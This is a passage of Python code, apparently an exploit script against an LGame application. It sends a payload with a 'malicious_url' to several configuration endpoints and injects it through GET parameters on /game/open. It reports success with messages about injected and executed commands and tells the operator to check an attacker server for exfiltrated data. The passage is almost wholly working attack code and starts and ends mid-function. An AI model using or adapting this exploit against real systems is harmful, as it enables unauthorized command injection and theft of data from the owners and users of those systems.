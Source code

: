 ```python
        # Common LGame configuration endpoints that might trigger openURL()
        endpoints = [
            "/game/config",
            "/api/settings", 
            "/game/help",
            "/config/update"
        ]
        
        for endpoint in endpoints:
            print(f"[*] Trying endpoint: {endpoint}")
            
            # Different payload formats for different endpoints
            json_payload = {
                "help_url": malicious_url,
                "tutorial_url": malicious_url,
                "update_url": malicious_url,
                "documentation_url": malicious_url
            }
            
            try:
                response = requests.post(
                    f"{target_url}{endpoint}",
                    json=json_payload,
                    timeout=10,
                    proxies=proxies,
                    headers={"Content-Type": "application/json"}
                )
                
                print(f"[+] Response from {endpoint}: {response.status_code}")
                
                if response.status_code in [200, 202, 204]:
                    print(f"[+] Potential successful exploitation via {endpoint}")
                    print(f"[+] Injected command: {malicious_url}")
                    break
                    
            except requests.exceptions.RequestException as e:
                print(f"[-] Failed to reach {endpoint}: {e}")
                continue
        
        print(f"[*] Step 2: Alternative - Direct URL parameter injection")
        
        # Try GET parameter injection
        try:
            params = {"url": malicious_url, "open_url": malicious_url}
            response = requests.get(
                f"{target_url}/game/open",
                params=params,
                timeout=10,
                proxies=proxies
            )
            print(f"[+] GET parameter response: {response.status_code}")
            
        except requests.exceptions.RequestException as e:
            print(f"[-] GET parameter method failed: {e}")
        
        print(f"\\n[+] Exploitation attempt completed.")
        print(f"[!] Command executed (if vulnerable): {malicious_url}")
        print(f"[!] Check {attacker_server} for exfiltrated data")
        
    except Exception as e:
        print(f"\\n[-] Unexpected error occurred: {e}")

def validate_environment():
```